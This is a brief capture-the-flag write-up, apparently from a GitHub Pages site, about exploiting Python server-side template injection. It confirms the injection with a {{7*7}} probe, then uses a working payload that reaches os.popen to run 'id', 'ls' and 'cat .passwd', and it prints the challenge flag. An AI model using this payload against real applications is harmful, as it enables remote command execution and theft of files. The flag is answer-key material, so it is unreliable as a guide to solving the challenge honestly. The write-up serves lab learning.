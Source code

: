 ```yaml
---
layout: default
title: Python-Server-side-Template-Injection-Introduction
---
```


By supplying:  
{% raw %}{{7*7}}{% endraw %} , 
and recieving: `49`, we can assume `SSTI` is working here.
![SSTI PoC](./images/Python-Server-side-Template-Injection-Introduction_SSTI.png)

So, I simply went to [PayloadAllTheThings SSTI](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/) and grabbed this payload, which is called *Exploit The SSTI By Calling os.popen().read()*

{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}{% endraw %}
Then, as you can see the command `id` executed.

So, I run `ls` and saw the file `.passwd` exists, and read it using `cat .passwd` to achieve the flag.
![FINAL img](./images/Python-Server-side-Template-Injection-Introduction_FINAL.png)


**Flag:** ***`Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!`***
